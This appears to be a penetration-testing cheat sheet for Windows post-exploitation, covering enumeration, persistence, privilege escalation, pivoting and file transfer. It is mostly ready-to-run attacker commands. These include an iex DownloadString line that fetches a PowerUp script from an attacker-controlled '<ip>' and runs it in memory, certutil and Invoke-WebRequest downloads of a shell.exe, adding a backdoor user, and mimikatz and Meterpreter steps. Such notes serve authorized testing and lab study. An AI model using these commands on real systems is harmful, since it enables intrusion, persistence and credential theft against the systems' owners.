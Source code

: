 <details>
  <summary></summary>
    <br>
</details>

<details>
  <summary>Enumeration</summary>
    <br>
  
 [JAWS](https://github.com/411Hall/JAWS)
  
  
    Recently accessed files and executed commands

    type C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 


List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist 
     powershell -c Get-Service
     sc query

Arp table

    arp -a
</details>

<details>
  <summary>Maintain persistance</summary>
    <br>
    
     - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task

    
</details>

<details>
  <summary>Pivilege escalation</summary>
    <br>
    
- [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
-------------------------------------------------------------------------------------

- [Nishang repo](https://github.com/samratashok/nishang)

-------------------------------------------------------------------------------------

- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
-------------------------------------------------------------------------------------
      
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---common-vulnerabilities-and-exposure)

-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
      With meterpreter "sysinfo" or CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

</details>

<details>
  <summary>Pivoting</summary>
    <br>

**Egrees firewall testing:**

 If python is useable: 
 
    https://github.com/stufus/egresscheck-framework
    
 If python is not useable and powershell is: 
 
     powershell.exe Get-Alias -Definition Invoke-WebRequest | Format-Table -AutoSize
     
     powershell.exe curl http://<ip>:<port>/x
     
     
     
 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network

</details>

<details>
  <summary>Methods to upload files to/from target</summary>
    <br>

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    powershell -c "Invoke-WebRequest -Uri '<ip>/<shell.exe>' -OutFile '<output path>'"
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter

</details>

